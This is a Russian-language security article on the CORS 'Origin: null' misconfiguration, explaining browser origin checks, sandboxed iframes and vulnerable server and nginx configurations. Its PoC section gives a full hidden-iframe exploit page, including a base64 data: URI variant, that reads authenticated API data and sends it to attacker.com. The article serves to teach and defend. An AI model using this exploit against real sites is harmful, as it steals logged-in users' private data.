




> **CORS (Cross-Origin Resource Sharing)** — это механизм, который позволяет браузеру определять, разрешено ли одному сайту читать ответы от другого. Он не отменяет Same Origin Policy, а создаёт контролируемый例外 — но только если сервер явно на это согласен.

{: .notice--info}

Эта статья — не пересказ документации MDN. Здесь разобрана внутренняя механика браузера: почему возникает заголовок `Origin: null`, как именно браузер принимает решение о том, что ответ можно прочитать, и как эта логика превращается в эксплуатируемую уязвимость. После прочтения вы будете понимать каждый шаг цепочки — от создания запроса до чтения `responseText` в JavaScript атакующего.

## Введение: Same Origin Policy и появление CORS

### Что такое Same Origin Policy

Браузер изолирует сайты друг от друга. Эта изоляция называется **Same Origin Policy (SOP)** — политика одинакового происхождения. Правило простое: JavaScript, выполняющийся на странице `https://example.com`, не может читать ответы от `https://api.other.com`. Он может отправить запрос (браузер не блокирует саму отправку), но ответ будет недоступен для чтения.

Происхождение (origin) определяется тремя компонентами: **scheme**, **host** и **port**. Если хотя бы один из них отличается — это другой origin.

### Почему SOP существует

Представьте ситуацию: вы авторизованы на `https://bank.com`. Ваш браузер хранит cookies этого банка. Если бы не было SOP, любой сайт `https://evil.com` мог бы выполнить JavaScript-запрос к `https://bank.com/api/balance`, и браузер автоматически приколол бы cookies банка к этому запросу. Сервер банка вернул бы баланс счёта, а JavaScript злоумышленника прочитал бы его.

SOP предотвращает именно это: **запрос уходит, но JavaScript не может прочитать ответ**. Браузер возвращает ошибку, и `responseText` остаётся пустым.

### Как появился CORS

SOP слишком строгий. Легитимным приложениям часто нужно обращаться к API на других доменах: фронтенд на `https://app.com` обращается к `https://api.app.com`, или сторонний сервис встраивает виджет. Для этих случаев был создан **CORS** — механизм, позволяющий серверу явно разрешить чтение ответов с другого origin.

Ключевое: **CORS не отменяет SOP**. CORS — это расширение, которое добавляет контролируемое исключение. Сервер отправляет заголовок `Access-Control-Allow-Origin`, и если значение этого заголовка совпадает с origin запрашивающей страницы, браузер разрешает JavaScript прочитать ответ.

## Как браузер определяет Origin

Браузер определяет origin по формуле: **scheme + host + port**.

| URL | Origin | Объяснение |
|------|--------|------------|
| `https://example.com` | `https://example.com` | Scheme: https, host: example.com, порт по умолчанию (443) |
| `https://example.com:443` | `https://example.com` | Порт 443 — стандартный для HTTPS, не учитывается |
| `http://example.com` | `http://example.com` | Scheme http — другой origin |
| `https://api.example.com` | `https://api.example.com` | Поддомен — другой origin |
| `https://example.com:8443` | `https://example.com:8443` | Нестандартный порт — другой origin |

{: .notice--info}

Путь (`/path/to/page`) и query-параметры (`?id=1`) в состав origin не входят. `https://example.com/page1` и `https://example.com/page2` — один и тот же origin.

Когда JavaScript на странице `https://evil.com` выполняет `fetch("https://api.bank.com/data")`, браузер автоматически добавляет к запросу заголовок:

```http
Origin: https://evil.com
```

Сервер видит, откуда пришёл запрос, и решает: доверять этому origin или нет. Если доверяет — отвечает:

```http
Access-Control-Allow-Origin: https://evil.com
```

Браузер сравнивает значение `Access-Control-Allow-Origin` с реальным origin страницы (`https://evil.com`). Если они совпадают — JavaScript получает доступ к ответу.


## Когда появляется Origin: null

Обычно заголовок Origin содержит конкретный origin: `https://example.com`. Но существует ряд ситуаций, когда браузер не может определить настоящее происхождение и отправляет:

```http
Origin: null
```

Это не баг. Это сознательное решение браузера. Разберём каждый случай.

### sandbox iframe

Атрибут `sandbox` на элементе `<iframe>` накладывает дополнительные ограничения на содержимое фрейма. Работает так: браузер создаёт **новую browsing context** (контекст просмотра) и применяет к нему набор ограничений.

Полный список флагов `sandbox`:

- `allow-scripts` — разрешает выполнение JavaScript
- `allow-same-origin` — сохраняет настоящий origin фрейма (без него origin становится `null`)
- `allow-forms` — разрешает отправку форм
- `allow-popups` — разрешает открытие всплывающих окон
- `allow-top-navigation` — разрешает навигацию верхнего окна

Когда `sandbox` содержит `allow-scripts` но **не** содержит `allow-same-origin`, браузер изолирует происхождение фрейма. Содержимое фрейма считается не имеющим настоящего origin. Любой запрос, который JavaScript внутри этого фрейма отправит, получит заголовок `Origin: null`.

Почему так устроено: если бы `allow-scripts` + `allow-same-origin` работали вместе, JavaScript внутри sandbox-фрейма имел бы полный доступ к cookies и DOM родительского origin. Это нарушило бы цель sandbox. Поэтому браузер принудительно обнуляет origin, когда даёт scripts, но не даёт same-origin.

```html
<!-- origin фрейма = null -->
<iframe sandbox="allow-scripts allow-forms" src="https://attacker.com/payload.html">
</iframe>

<!-- origin фрейма = https://attacker.com (опасная комбинация) -->
<iframe sandbox="allow-scripts allow-same-origin" src="https://attacker.com/payload.html">
</iframe>
```

{: .notice--warning}
**На заметку исследователю.** Комбинация `allow-scripts` без `allow-same-origin` — это не защита от CORS-эксплуатации. Наоборот, именно эта комбинация создаёт `Origin: null`, который сервер может решить доверить. Полная изоляция требует убрать оба флага.

### file://

Когда HTML-файл открывается локально — не через HTTP-сервер, а напрямую из файловой системы (`file:///C:/Users/victim/evil.html`), — браузер не может определить происхождение в терминах scheme/host/port. Схема `file` не имеет хоста. Поэтому любой CORS-запрос из такого контекста получает `Origin: null`.

На практике это менее актуально: современные браузеры сильно ограничивают возможности `file://` контекста, и большинство attack-векторов используют именно sandbox iframe.

### data: URI и about:blank

Схема `data:` позволяет встроить содержимое прямо в URI:

```html
<iframe src="data:text/html,<script>fetch('https://target.com/api')</script>">
</iframe>
```

Содержимое, загруженное через `data:` URI, не имеет origin. Запросы из такого контекста получают `Origin: null`.

Аналогично работает `about:blank` — пустая страница, которая используется как начальный документ для новых окон и фреймов.

### srcdoc

Атрибут `srcdoc` позволяет встроить HTML-документ прямо в элемент iframe:

```html
<iframe sandbox="allow-scripts" srcdoc="<script>fetch('https://target.com/api')</script>">
</iframe>
```

Содержимое `srcdoc` не загружается с какого-либо URL — оно определяется атрибутом. У него нет origin в терминах scheme/host/port. Следовательно, любой CORS-запрос из такого фрейма получает `Origin: null`.

{: .notice--danger}
**Почему это работает.** `srcdoc` + `sandbox="allow-scripts"` — это один из самых надёжных способов получить `Origin: null` в современных браузерах. Не нужен внешний сервер атакующего — всё содержимое встраивается прямо в HTML-документ.

### Редиректы (косвенное влияние)

В некоторых сценариях редирект может влиять на Origin. Классический пример: кросс-доменный редирект из Trusted Origin. Однако в современных браузерах это поведение жёстко ограничено. Браузер не позволяет «подменить» origin через редирект — значение `Origin` фиксируется на момент создания запроса и не меняется при переадресации.

Этот сценарий имеет историческое значение: в старых браузерах редирект с `https://trusted.com` на `https://evil.com` мог изменить origin запроса. Сейчас этого не происходит.

## Что браузер делает при Origin: null

Теперь разберём пошагово, что именно происходит, когда JavaScript отправляет запрос с `Origin: null`.

### Шаг 1. JavaScript создаёт запрос

```javascript
fetch('https://api.victim.com/user/profile', {
  credentials: 'include'  // просим браузер прикрепить cookies
});
```

### Шаг 2. Браузер формирует HTTP-запрос

Браузер определяет, что JavaScript выполняется в контексте без origin (sandbox iframe, srcdoc, data: URI). Он устанавливает заголовок:

```http
GET /user/profile HTTP/1.1
Host: api.victim.com
Origin: null
Cookie: session=abc123def456
```

Обратите внимание: браузер **прикрепляет cookies** целевого домена, потому что `credentials: 'include'` указывает это, а домен cookies (`victim.com`) совпадает с целевым сервером. То, что origin равен `null`, не влияет на отправку cookies.

{: .notice--info}

### Шаг 3. Сервер обрабатывает запрос и отвечает

Сервер видит `Origin: null` и проверяет свой whitelist. Если `null` есть в whitelist — сервер отвечает:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
Content-Type: application/json

{"id": 1, "email": "victim@company.com", "ssn": "..."}
```

### Шаг 4. Браузер выполняет CORS-проверку

Браузер проверяет два условия:

1. **Значение `Access-Control-Allow-Origin`** должно совпадать с origin запрашивающей страницы. Origin страницы — `null`. Заголовок от сервера — `null`. Совпадение.
2. **Если `credentials: 'include'`**, то `Access-Control-Allow-Credentials` должен быть `true`. Он `true`. Условие выполнено.

### Шаг 5. JavaScript получает responseText

Оба условия выполнены. Браузер передаёт ответ в JavaScript:

```javascript
const response = await fetch('https://api.victim.com/user/profile', {
  credentials: 'include'
});
const data = await response.json();
console.log(data); // {id: 1, email: "victim@company.com", ...}
```

Теперь данные у атакующего.


## Как работает CORS: подробный разбор механизма

Чтобы понять уязвимость, нужно досконально понимать нормальную работу CORS.

### Access-Control-Allow-Origin

Это главный заголовок. Он указывает, какому origin сервер разрешает читать ответ. Возможные значения:

- **Конкретный origin**: `Access-Control-Allow-Origin: https://trusted.com` — только этому origin.
- **`*` (звёздочка)**: `Access-Control-Allow-Origin: *` — любому origin. Но при этом `Access-Control-Allow-Credentials` **не может** быть `true` — браузер это запретит.
- **`null`**: `Access-Control-Allow-Origin: null` — «доверяю запросам без origin».

{: .notice--danger}
**Типичная ошибка.** Значение `*` не так опасно, как кажется — оно несовместимо с `credentials: 'include'`. А вот `null` полностью совместим с credentials. Именно поэтому `null` опаснее `*`.

### Access-Control-Allow-Credentials

Этот заголовок разрешает браузеру отправлять и получать credentials (cookies, HTTP-аутентификацию, client-side TLS-сертификаты). Если он отсутствует или равен `false`, браузер не будет прикреплять cookies к кросс-доменному запросу.

Критическое ограничение: если `Access-Control-Allow-Origin: *`, то `Access-Control-Allow-Credentials` **должен быть** `false` (или отсутствовать). Браузер не позволит использовать `*` вместе с `true`. Это встроенная защита браузера.

Но если `Access-Control-Allow-Origin: null` — это **не** `*`. Это конкретное строковое значение. И оно **полностью совместимо** с `Access-Control-Allow-Credentials: true`. Вот в этом и заключается фундаментальная проблема.

### Vary: Origin

Когда сервер возвращает `Access-Control-Allow-Origin` в зависимости от значения заголовка `Origin` запроса, он **обязан** добавить заголовок `Vary: Origin`. Без него кэширующие прокси могут сохранить ответ с `Access-Control-Allow-Origin: null` и отдать его другому клиенту с другим origin.

### Preflight-запрос

Для некоторых типов запросов браузер отправляет предварительный `OPTIONS`-запрос (preflight), прежде чем выполнить основной. Preflight — это механизм безопасности, который даёт серверу возможность заранее заявить, какие кросс-доменные запросы он разрешает. Сервер может отклонить запрос на этом этапе, не обрабатывая основной.

Preflight нужен для:

- Нестандартных методов (`PUT`, `DELETE`, `PATCH`)
- Нестандартных заголовков (`Content-Type: application/json`, `X-Custom-Header`)
- Запросов с `credentials: 'include'` — хотя здесь поведение зависит от браузера и типа контента

Почему preflight существует: без него браузер отправил бы `DELETE /api/user` напрямую, сервер бы выполнил удаление, а потом браузер заблокировал ответ. Но действие-то уже совершено. Preflight позволяет серверу сказать «я не разрешаю DELETE с этого origin» **до** выполнения действия.

Preflight-запрос выглядит так:

```http
OPTIONS /api/data HTTP/1.1
Host: api.victim.com
Origin: null
Access-Control-Request-Method: GET
Access-Control-Request-Headers: content-type
```

Сервер должен ответить заголовками, указывающими, что разрешено:

```http
HTTP/1.1 204 No Content
Access-Control-Allow-Origin: null
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Headers: content-type
Access-Control-Allow-Credentials: true
```

Только после этого браузер отправит основной `GET`-запрос.

{: .notice--info}

### Простые запросы (без preflight)

Не все запросы проходят через preflight. «Простые» запросы отправляются сразу. К ним относятся:

- Методы: `GET`, `HEAD`, `POST`
- Заголовки: только стандартные (`Accept`, `Accept-Language`, `Content-Type` с ограничениями)
- `Content-Type`: только `text/plain`, `multipart/form-data`, `application/x-www-form-urlencoded`

Если запрос простой — preflight не отправляется, и ответ сервера проверяется постфактум. Для атакующего это значит, что при использовании простого запроса нет дополнительного шанса для сервера отклонить запрос на этапе preflight.

## Где появляется ошибка

Уязвимость возникает, когда сервер **доверяет** `Origin: null`. Рассмотрим конкретные примеры.

### Ошибка 1: null в whitelist

```javascript
// УЯЗВИМЫЙ КОД
const allowedOrigins = [
  "https://company.com",
  "https://app.company.com",
  "null"  // <-- разработчик думал, что это для локальной разработки
];

const origin = req.headers.origin;
if (allowedOrigins.includes(origin)) {
  res.setHeader("Access-Control-Allow-Origin", origin);
  res.setHeader("Access-Control-Allow-Credentials", "true");
}
```

Разработчик добавил `"null"` в whitelist, потому что при локальной разработке (файлы открываются через `file://` или используются песочницы) браузер отправляет `Origin: null`. Вместо того чтобы отдельно обрабатывать локальную разработку, разработчик просто добавил строку в продакшн-whitelist.

### Ошибка 2: отражение (reflection) Origin

```javascript
// УЯЗВИМЫЙ КОД
const origin = req.headers.origin;
if (origin && origin.endsWith(".company.com")) {
  res.setHeader("Access-Control-Allow-Origin", origin);
  res.setHeader("Access-Control-Allow-Credentials", "true");
}
// Если origin не совпал — но null проходит через fallback:
if (!res.getHeader("Access-Control-Allow-Origin")) {
  res.setHeader("Access-Control-Allow-Origin", origin || "*");
}
```

Здесь два бага. Первый — отражение origin без строгой проверки (подвержено поддоменному захвату). Второй — fallback, который при `origin === null` устанавливает `Access-Control-Allow-Origin: null` (потому что `null || "*"` возвращает `"*"`, но если origin это строка `"null"`, то она пойдёт как есть).

### Ошибка 3: обратный прокси

```nginx
# УЯЗВИМЫЯ КОНФИГУРАЦИЯ NGINX
add_header Access-Control-Allow-Origin $http_origin always;
add_header Access-Control-Allow-Credentials true always;
```

Nginx копирует значение заголовка `Origin` из запроса в `Access-Control-Allow-Origin` ответа. Это значит, что **любой** origin, включая `null`, будет отражён. Это «максимально доверительная» конфигурация — она trust-ит всё.

Вариант с Cloudflare: если в Cloudflare настроено правило «Access-Control-Allow-Origin: *», а за ним стоит nginx, который перезаписывает заголовок — реальное поведение зависит от того, какой заголовок обрабатывается последним.

### Ошибка 4: динамическая конфигурация из базы

В микросервисной архитектуре whitelist origins может храниться в базе данных или конфигурационном сервисе. Если администратор добавляет запись со значением `null` (думая, что это означает «без origin» или «для локальной разработки»), все инстансы приложения начинают доверять `Origin: null`.

```yaml
# Пример конфигурации в Kubernetes ConfigMap
apiVersion: v1
kind: ConfigMap
data:
  cors-allowed-origins: |
    https://company.com
    https://app.company.com
    null  # кто-то добавил «для тестов»
```

{: .notice--danger}
**Типичная ошибка.** Конфигурация `add_header Access-Control-Allow-Origin $http_origin` встречается в продакшне удивительно часто. Разработчик хочет «разрешить все origins» и копирует заголовок, не понимая, что это полностью отключает защиту CORS.

## Почему это становится уязвимостью

Теперь объясним логику браузера — именно то, что делает `Origin: null` опасным.

Браузер не анализирует, **почему** origin равен `null`. Он не проверяет, открыта ли страница в sandbox iframe, загружена ли из `file://`, или это `data:` URI. Браузер видит одну вещь: origin страницы — это строка `"null"`.

Алгоритм проверки CORS в браузере:

1. Определить origin запрашивающего контекста → `"null"`
2. Отправить заголовок `Origin: null` с запросом
3. Получить ответ с `Access-Control-Allow-Origin: <значение>`
4. Сравнить: `"null"` === `<значение>`?
5. Если да — разрешить JavaScript читать ответ

Строковое сравнение. `"null"` === `"null"` → `true`. Готово. JavaScript может читать `responseText`, `response.json()`, заголовки ответа — всё.

### Что именно проверяет браузер

Спецификация Fetch (Section 3.2.5 «HTTP-network-or-cache fetch») определяет алгоритм проверки CORS. Браузер выполняет следующие шаги после получения ответа:

1. Получить значение заголовка `Access-Control-Allow-Origin` из ответа. Если его нет — заблокировать ответ.
2. Если значение `*` и запрос не использует credentials — разрешить.
3. Если значение совпадает с origin запрашивающего контекста — разрешить.
4. Во всех остальных случаях — заблокировать.

Обратите внимание: нигде в этом алгоритме нет проверки «является ли origin валидным URL-ом». `null` проходит шаг 3 так же, как `https://example.com`.

### Когда разрешает JS читать responseText

JavaScript получает доступ к ответу только после того, как все проверки пройдены. Если хотя бы одна проверка не пройдена, браузер:

- Вызывает `catch` в Promise (для `fetch`)
- Бросает исключение (для `XMLHttpRequest`)
- `response.text()`, `response.json()`, `response.headers` — всё недоступно
- В DevTools видно ошибку: «Access to fetch at '...' from origin 'null' has been blocked by CORS policy»

Но когда `Access-Control-Allow-Origin: null` совпадает с `Origin: null` и `Access-Control-Allow-Credentials: true` присутствует — ни одна из этих проверок не срабатывает. Ответ читаем полностью.

{: .notice--warning}
**Почему это работает.** Ключевой момент: браузер проводит строковое сравнение. Он не проверяет «валидность» origin. Для него `"null"` — это такой же валидный origin, как `"https://example.com"`. Если сервер говорит «я доверяю null» — браузер верит серверу.


## Полная цепочка эксплуатации



Разберём каждый шаг.

**Шаг 1.** Жертва ранее авторизовалась на `https://target.com`. В браузере хранятся cookies этого домена: `session=abc123`.

**Шаг 2.** Атакующий убеждает жертву открыть свою страницу. Это может быть фишинговое письмо, ссылка в мессенджере, рекламный баннер.

**Шаг 3.** Страница атакующего содержит HTML с sandbox iframe. JavaScript внутри этого iframe выполняется, но его origin — `null`.

**Шаг 4.** JavaScript в iframe отправляет `fetch` к `https://target.com/api/data` с `credentials: 'include'`. Браузер прикрепляет cookies `target.com` (потому что целевой домен совпадает) и добавляет `Origin: null` (потому что iframe в sandbox).

**Шаг 5.** Сервер проверяет whitelist и видит, что `null` входит в список доверенных origins.

**Шаг 6.** Сервер отправляет ответ с `Access-Control-Allow-Origin: null` и `Access-Control-Allow-Credentials: true`.

**Шаг 7.** Браузер проверяет: `null` (origin страницы) === `null` (значение ACAO). Совпадение. Credentials разрешены. Ответ читаем.

**Шаг 8.** JavaScript в iframe получает полный доступ к ответу.

**Шаг 9.** JavaScript отправляет полученные данные на сервер атакующего через `fetch('https://attacker.com/collect', {method: 'POST', body: stolenData})`.


## Архитектурная схема атаки



## PoC: полный эксплойт

Ниже — полный HTML-файл атаки. Каждая строка прокомментирована.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Click to Win a Prize!</title>
</head>
<body>
    <h1>Loading...</h1>

    <!--
        Создаём iframe с sandbox.
        allow-scripts — разрешаем JavaScript внутри фрейма.
        НЕТ allow-same-origin — поэтому origin фрейма становится null.
        srcdoc — встраиваем HTML прямо сюда, не нужен внешний сервер.
    -->
    <iframe
        sandbox="allow-scripts"
        srcdoc="
            <script>
                // Шаг 1: отправляем запрос к целевому API
                // credentials: 'include' — просим браузер прикрепить cookies
                fetch('https://api.victim.com/user/me', {
                    method: 'GET',
                    credentials: 'include'
                })
                .then(function(response) {
                    // Шаг 2: читаем ответ
                    // Если CORS прошёл — response.json() вернёт данные
                    return response.json();
                })
                .then(function(data) {
                    // Шаг 3: отправляем украденные данные атакующему
                    fetch('https://attacker.com/collect', {
                        method: 'POST',
                        headers: {'Content-Type': 'application/json'},
                        body: JSON.stringify({
                            stolen: data,
                            url: window.location.href
                        })
                    });
                })
                .catch(function(err) {
                    // Если CORS не прошёл — ошибка
                    fetch('https://attacker.com/error', {
                        method: 'POST',
                        body: err.message
                    });
                });
            </script>
        "
        style="width:0;height:0;border:0;"
    ></iframe>

</body>
</html>
```

### Разбор ключевых строк

- `sandbox="allow-scripts"` — это единственный флаг. Без `allow-same-origin` браузер принудительно устанавливает origin фрейма в `null`.
- `srcdoc="..."` — содержимое фрейма встроено прямо в атрибут. Не нужен отдельный файл на сервере атакующего.
- `credentials: 'include'` — критически важный параметр. Без него браузер не отправит cookies жертвы, и сервер не вернёт данные авторизованного пользователя.
- `style="width:0;height:0;border:0;"` — iframe невидим для жертвы.
- Внутренний `</script>` — экранирование нужно, потому что `srcdoc` находится внутри HTML-атрибута, и `</script>` закрыл бы внешний тег.

{: .notice--info}

### Вариант без srcdoc

Если `srcdoc` по какой-то причине не подходит, можно использовать `data:` URI:

```html
<iframe
    sandbox="allow-scripts"
    src="data:text/html;base64,PHNjcmlwdD5mZXRjaCgnaHR0cHM6Ly9hcGkudmljdGltLmNvbS91c2VyL21lJywge2NyZWRlbnRpYWxzOidpbmNsdWRlJ30pLnRoZW4ocj0+ci5qc29uKCkpLnRoZW4oZD0+ZmV0Y2goJ2h0dHBzOi8vYXR0YWNrZXIuY29tL2NvbGxlY3QnLHttZXRob2Q6J1BPU1QnLGJvZHk6SlNPTi5zdHJpbmdpZnkoZCl9KSk8L3NjcmlwdD4="
    style="width:0;height:0;border:0;"
></iframe>
```

Здесь payload кодируется в base64 и встраивается в `data:text/html;base64,...`. Браузер декодирует и выполнит JavaScript с `Origin: null`.

### Пошаговая демонстрация атаки в DevTools

Если вы хотите увидеть механику своими руками, вот последовательность действий:

**Шаг 1.** Откройте любой сайт, на котором вы авторизованы (например, `https://github.com`). Откройте DevTools (F12).

**Шаг 2.** В консоли выполните:

```javascript
// Это отправит запрос с Origin: https://github.com
// Сервер GitHub не разрешит чтение — ошибка CORS
fetch('https://api.github.com/user', {credentials: 'include'})
  .then(r => r.json())
  .then(d => console.log('Leaked:', d))
  .catch(e => console.log('Blocked:', e.message));
```

Вы увидите ошибку — GitHub не отправляет `Access-Control-Allow-Origin` для этого origin (в других контекстах может, но не для произвольных страниц).

**Шаг 3.** Теперь создайте HTML-файл с sandbox iframe и попробуйте то же самое. Разница: Origin будет `null`, и если бы сервер доверял `null` — данные были бы прочитаны.

{: .notice--info}


## Почему без Access-Control-Allow-Credentials атака ломается

Если сервер не отправляет `Access-Control-Allow-Credentials: true`, браузер **не отправит cookies** целевого домена при кросс-доменном запросе, даже если `credentials: 'include'` указан в JavaScript.

### Что происходит с cookies

Когда JavaScript выполняет `fetch(url, {credentials: 'include'})`, браузер проверяет:

1. Есть ли cookies для целевого домена? — Да, жертва авторизована.
2. Разрешает ли CORS-политика отправку credentials? — Это определяется **ответом сервера** на preflight или основным запросом.

Если `Access-Control-Allow-Credentials` отсутствует или равен `false`, браузер:

- **Не отправит** cookies с запросом (даже если `credentials: 'include'`)
- Вернёт ответ JavaScript, но без cookies сервер увидит неавторизованного пользователя
- Сервер вернёт публичные данные или ошибку 401
- Даже если бы `Access-Control-Allow-Origin: null` был правильным — без cookies атакующий получает только то, что доступно анонимному пользователю

Для атаки критически важно, чтобы cookies **отправились** — именно они дают доступ к данным авторизованного пользователя (профилю, балансу, приватным сообщениям).

### Механика на уровне заголовков

Сравните два запроса:

```http
# С ACAC: true — cookies отправлены, данные авторизованы
GET /api/user/me HTTP/1.1
Host: api.victim.com
Origin: null
Cookie: session=abc123
```

```http
# Без ACAC — cookies НЕ отправлены
GET /api/user/me HTTP/1.1
Host: api.victim.com
Origin: null
# Cookie отсутствует!
```

Во втором случае сервер вернёт либо 401 (требуется авторизация), либо публичные данные. Атакующий получает то же, что получил бы неавторизованный пользователь — а это не является уязвимостью.

### Когда credentials не нужны

Если endpoint не требует авторизации (публичный API), то `Access-Control-Allow-Credentials` не нужен. Но в таком случае атакующий может прочитать данные и без `Origin: null` — достаточно, чтобы сервер вернул `Access-Control-Allow-Origin: *`. Уязвимость `Origin: null` имеет смысл именно при чтении **авторизованных** данных.

{: .notice--warning}
**Почему credentials важны.** Без `Access-Control-Allow-Credentials: true` cookies не отправляются, и атакующий получает только то, что доступно без авторизации. Вся ценность уязвимости — в чтении данных авторизованного пользователя.

## Ограничения атаки

Эта уязвимость не универсальна. Для успешной эксплуатации должны совпасть несколько условий.

### 1. Пользователь должен быть авторизован

Cookies жертвы должны быть активны. Если сессия истекла или пользователь вышел из аккаунта — cookies нет, и сервер вернёт данные анонимного пользователя (или ошибку).

### 2. Cookies должны отправляться

Целевой endpoint должен использовать cookies для аутентификации. Если используется `Authorization: Bearer <token>` (токен передаётся через заголовок, а не через cookie), атакующий не может получить этот токен через `Origin: null` — токен хранится в JavaScript, а не в cookies, и он не пересекает origin-границу.

Исключение: если токен хранится **в cookie** (не в `localStorage`), то он будет отправлен.

### 3. Endpoint должен отвечать данными

Если сервер корректно проверяет cookies и сессию, но endpoint возвращает минимальные данные (например, только `"status": "ok"`), ценность атаки снижается. Наиболее ценные цели — endpoints, возвращающие персональные данные.

### 4. Отсутствие дополнительной CSRF-защиты

Если endpoint требует не только cookies, но и дополнительный токен (CSRF-token в заголовке или в теле запроса), атакующий не сможет его получить. `Origin: null` не даёт доступа к DOM целевой страницы — только к HTTP-ответам.

### 5. Preflight-запрос не должен блокировать атаку

Если запрос требует preflight (нестандартные заголовки, метод не GET/POST), сервер может отклонить `Origin: null` на этапе OPTIONS-запроса. Но если основной запрос — простой GET, preflight не отправляется.

### 6. SameSite cookies

Если cookies целевого сайта имеют флаг `SameSite=Strict` или `SameSite=Lax`, браузер не отправит их в кросс-доменном запросе из sandbox iframe. Это полноценная защита от описанной атаки.

`SameSite=None` (требуется для кросс-доменной отправки) + `Secure` — и cookies будут отправлены. Если у cookies нет атрибута SameSite, поведение по умолчанию — `Lax` в современных браузерах, что также блокирует отправку в iframe-контексте.

{: .notice--info}

### Вектор на практике

В реальных bug bounty отчётах наиболее частая комбинация: целевой endpoint использует `SameSite=None; Secure` cookies (потому что API должно работать с несколькими фронтенд-доменами), и CORS настроен с `Origin: null` в whitelist. Без `SameSite=None` атака, описанная в этой статье, не сработает в большинстве современных браузеров.

{: .notice--info}


